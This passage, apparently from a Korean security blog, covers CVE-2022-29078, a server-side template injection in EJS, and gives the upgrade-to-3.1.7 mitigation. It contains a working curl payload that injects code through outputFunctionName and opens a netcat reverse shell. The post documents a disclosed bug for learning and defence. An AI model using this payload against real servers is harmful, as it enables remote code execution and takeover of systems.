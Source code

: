 - `curl "127.0.0.1:3000?test=AAAA&settings\[view%20options\]\[outputFunctionName\]=x;process.mainModule.require('child_process').execSync('nc%20127.0.0.1%208862%20-e%20sh');x"`

![Untitled](/assets/img/20221031/Untitled%204.png)

## Mitigation

- EJS 3.1.7 이상 버전으로 업데이트

다음과 같이 코드를 수정하여 RCE를 막았다.

- [https://github.com/mde/ejs/commit/15ee698583c98dadc456639d6245580d17a24baf](https://www.notion.so/CVE-2022-29078-EJS-SSTI-8f34e40c014741d08cedc66e392292bb)
- [https://github.com/mde/ejs/issues/451](https://github.com/mde/ejs/issues/451)

![Untitled](/assets/img/20221031/Untitled%205.png)
